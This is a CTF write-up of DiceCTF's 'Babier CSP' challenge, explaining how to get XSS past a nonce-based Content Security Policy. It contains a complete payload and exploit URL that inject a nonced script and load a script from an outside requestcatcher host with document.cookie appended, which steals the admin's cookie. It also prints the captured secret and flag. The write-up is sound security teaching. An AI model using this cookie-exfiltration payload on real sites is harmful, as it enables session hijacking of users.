 # DiceCTF-Writeup
# Babier CSP Challenge by notdeghost
[TL;DR at the bottom](#tldr)
## Getting XSS
When you visit the [challenge website](https://babier-csp.dicec.tf/) you are welcomed by a link with the name 'View Fruit'.
When clicked, it adds the get paramater ?name to the url with the value of a random Fruit.

The `name` value is just echoed back into the sites html. The challenge description also tells you, that your objective is to steal the admins
cookies which greatly hints towards a cross site scripting attack (XSS) -- So let's do that!

When you try to access `<site>?name=<script>alert(1)</script>` , nothing happens though. If you have a look at the main sites html using burp to intercept to
the request, you see that, the "View Fruit" link works with javascript and it has a nonce value set!

![Burp request intercept](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/burp_babier_csp.png)

Now let's add this nonce to our payload:
`https://babier-csp.dicec.tf/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">alert(1)</script>`
(From now on I will just show you the payload, not the full url)

An alert box pops up and the XSS worked!

## How to steal the Cookie

This is the part I struggled with.
The main idea is to add the cookies (found in `document.cookie`) to a get request to a service you can inspect the requests arriving.
I decided to go with [requestcatcher](https://requestcatcher.com/).
If we try to fetch a get request out of the browsers debug console from the target website to our bin, nothing arrives and fetch returns "rejected".

Now was the time I had a look into the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) (content security policy), which from my understanding tells the browser who it may make get requests to out of the websites context.

For the challenge website this header is set to following:
`Content-Security-Policy: default-src none; script-src 'nonce-LRGWAXOY98Es0zz0QOVmag==';`

This means first disallow every outgoing request and only allow requests for a script source, if the script has the nonce value = <nonce-value> set.

So we may fetch a script source to where ever we want to!

```html
</h1>                                             <= close open h1 tag from site html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">         <= open script tag with nonce value so it executes
var head=document.getElementsByTagName('head')[0];<= get a reference to the html head element on the page
var script= document.createElement('script');     <= create a new script tag
script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie))); <= setting the new script-tags src to our requestcatcher
                                                                                                          with the cookies appended as a get parameter
script.nonce="LRGWAXOY98Es0zz0QOVmag==";          <= setting the new script tag`s nonce so it will execute too
head.appendChild(script);                         <= finally appending it to the documents head, which will automatically execute it
</script>
</h1>
```

When the our new script tag is then executed, it want's to and is allowed to request it's "source" which in fact is our requestbin and we after we send the following link to the bot, a GET request will pop up in our bin.
Link: `https://babier-csp.dicec.tf?name=</h1><script nonce="LRGWAXOY98Es0zz0QOVmag==" >var head=document.getElementsByTagName('head')[0]; var script= document.createElement('script');script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie)));script.nonce="LRGWAXOY98Es0zz0QOVmag==";head.appendChild(script);</script></h1>`

The incoming request:
![Request](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/request_catcher_request.png)

So the GET request we caught 
`GET /?flag=%22secret=4b36b1b8e47f761263796b1defd80745%22 HTTP/1.1`
reveals "4b36b1b8e47f761263796b1defd80745" to be our token. 

If we have a quick look into the index.js source code we could download from the diceCTF website, this part 

```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
reveals how to move on.
Let's plug our token into the url like so `/4b36b1b8e47f761263796b1defd80745`

The new pages source code:
```

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

```
Hey!
`dice{web_1s_a_stat3_0f_grac3_857720}` is our flag!
<br>

## TL;DR
Add nonce value to script tag and fetch script src with cookie appended to circumvent the CSP.
<br>

Thanks for reading and hope you learned something new,<br>
LightStack<br>




